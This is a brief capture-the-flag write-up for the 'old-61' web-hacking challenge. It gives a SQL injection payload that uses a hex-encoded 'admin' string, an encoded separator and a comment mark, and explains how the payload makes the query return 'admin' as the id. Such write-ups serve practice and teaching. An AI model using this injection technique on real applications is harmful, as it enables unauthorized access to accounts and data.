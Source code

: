 # Webhacking old-61 Solution

this is the payload we will send:
`0x61646D696E%0bid#`

this is equivalent to:
`'admin' id#`

we don't need to use 'as', so what the query do is like that:
`select 'admin' as id #`
